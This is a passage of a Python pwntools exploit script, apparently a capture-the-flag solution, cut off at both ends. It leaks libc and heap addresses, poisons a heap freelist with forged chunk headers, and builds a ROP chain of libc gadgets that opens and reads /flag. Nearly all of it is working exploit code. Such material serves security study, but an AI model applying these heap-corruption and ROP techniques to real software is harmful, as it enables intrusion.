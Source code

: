 ```
    io.sendlineafter("choice:","5")


for i in range(10):
    add(0x280)

add(0x80) #10

for i in range(5):
    add(0xf0)

for i in range(7):
    free(i)

for i in range(5):
    free(11+i)

free(7)

#gdb.attach(io)
show(7)
io.recv(1)
libc_base = u64(io.recv(6).ljust(8,b'\x00')) - 0x1ecbe0
suc("libc_base",libc_base)

gdb.attach(io)
add(0x180) #11
add(0x3a0) #12
free(9)
add(0x180) #13
add(0x3a0) #14

io.recvuntil("Add Ptr: ")
heap_base = int(io.recv(10),16) -0x3260 -0x2d0 -0x230
suc("heap_base",heap_base)
fd = heap_base + 0x27f0
suc("fd",fd)
heap = heap_base+0x2b90
suc("heap",heap)
# gdb.attach(io)
edit(9,b'a'*0x180+p64(0)+p64(0x101)+p64(fd)+p64(heap_base+0x2b90))
edit(9,p64(0)+p64(0x101)+p64(0)+p64(0x00000000004040C0-0x10)+b'/flag\x00')
add(0xf0)
io.sendlineafter("choice:","5")
payload = b'b'*0x38
pop_rax = libc_base + 0x0000000000036174
pop_rdi = libc_base + 0x0000000000023b6a
pop_rsi = libc_base + 0x000000000002601f
pop_rdx_r12 = libc_base + 0x0000000000119431
syscall = libc_base + 0x00000000000630a9

flag_addr = heap+0x20

# gdb.attach(io)
payload += p64(pop_rax) + p64(257)
payload += p64(pop_rdi) + p64(0xffffff9c)   
payload += p64(pop_rsi) + p64(flag_addr)
payload += p64(pop_rdx_r12) + p64(0) + p64(0)
payload += p64(syscall)
# read
payload += p64(pop_rax) + p64(0)
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(flag_addr)
```
